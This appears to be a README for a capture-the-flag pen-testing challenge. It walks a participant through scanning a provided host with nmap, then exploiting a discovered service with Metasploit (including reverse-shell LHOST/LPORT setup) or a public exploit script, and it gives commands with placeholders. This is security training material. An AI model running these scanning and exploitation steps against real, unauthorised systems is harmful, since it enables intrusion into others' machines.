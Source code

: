 Use nmap to scan for open ports of the provided host, identify applications running on each port, use Metaploit or a exploit script you find online to take advantage of the first vulnerability.

#### Getting setup

Here are instructions on how to get your pen-tester environment setup:

#### Instructions for Completing the Challenge

- Run nmap
- Run Metasploit or an exploit script to take advantage of a vulnerability in the first identified app
- Execute commands remotely
- Find the flag program in the current directory and use it to sign the challenge salt: `./red_ch1.flag <SALT>`

#### Nmap
Nmap is a port scanner and a frequently utilized tool in the pocket of any pen-tester.

##### Installing Nmap
 
For RedHat/CentOS: `sudo yum install nmap`

For Debian/Ubuntu: `apt-get install nmap`

##### Scanning with Nmap

Once nmap is installed you can scan the target host with `nmap <target_host> -Pn -vv`

Other useful parameters are listed below:

* `-p` {PORT_NUMBERS}: Scan ports of the target. It can be a single port number or
a range of ports. Examples: `-p22,23,80` -> scan 22,23 and 80 , `-p8000-9000` -> scan a port range, `-p-` -> scan all the ports
* `-A`: Determine service/version and OS info.

For a detailed list of all parameters available please refer to the [Nmap Reference Guide](https://nmap.org/book/man.html).

Once you run nmap you will uncover a set of open ports. 
What services are running on those ports? Can you navigate to each service in a browser?

#### Metasploit

**Note**: this is the cooler option but you will need to get a bit of setup done and you need your exploit machine to be publicly accessible so the vulnerable machine can "call home".
If you're looking for the quick fix scroll down to the **Exploit Script** option below.

If you have Docker installed you can simply run the metasploit container image. Metasploit should be installed on a EC2 that is internet accessible to allow for the Meterpreter to run. 

##### Docker Install

* For RedHat/CentOS: `sudo yum install nmap` or `sudo amazon-linux-extras install docker` (AWS Linux 2)
* For Debian/Ubuntu: `apt-get install nmap`

##### Running Docker

* Start Docker with: `sudo service docker start`
* Add permissions to your userto pull and run container images: `sudo usermod -a -G docker ec2-user`
* Logout and relogin.

##### Running the Metasploit Image



Pull metasploit docker image from DockerHub

`docker pull metasploitframework/metasploit-framework`

Run metasploit container, forward port 4444 (needed for reverse shell), make sure those ports are open in security groups etc in your metasploit machine

`docker run -it -p 4444-4450:4444-4450 metasploitframework/metasploit-framework`

Search for the exploit you'd like to use based on nmap results:

`search <name of the application you are looking to exploit>`

Select the exploit you are going to use from the search results:

`use <path/to/the/exploit>`

Set the host and port for the attacker's and victim's machine

`set RHOSTS <host>`

`set RPORT <port>`

If your target is running on an encrypted port then you need to enable SSL

`set SSL true`

`set LHOST <remote IP of Metasploit machine>`

`set LPORT 4444`

Run the exploit!

`run`

This may fail in some cases, if it fails once reset the LHOST and run again

`set LHOST <remote IP of Metasploit machine>`
`run`

You should be able to get shell at this point and run commands in the container. Can you get the flag? Good luck!

If you want to learn more about Metasploit, please check out this free course from Offensive Security: [Metasploit Unleashed](https://www.offensive-security.com/metasploit-unleashed/)

#### Exploit Script

Before being ported to Metasploit for easy usage, exploits are usually released in the wild, in an ad-hoc way. Hackers can also take advantage of those to carry out their attacks. 

If the Metasploit option didn't work or you'd like to try another way of exploiting the same vulnerability, here it is:

In this scenario we are going to use a public exploit available on GitHub:

First, you need to clone the repository into your attacker's machine:

`git clone <exploit_github>`

Go to the project folder and install the library dependencies:

`cd <exploit_github>`

`sudo gem install highline`

You should be able to excute the exploit like so:

`./exploit.rb {VICTIM_IP_OR_URL:VICTIM_PORT}`

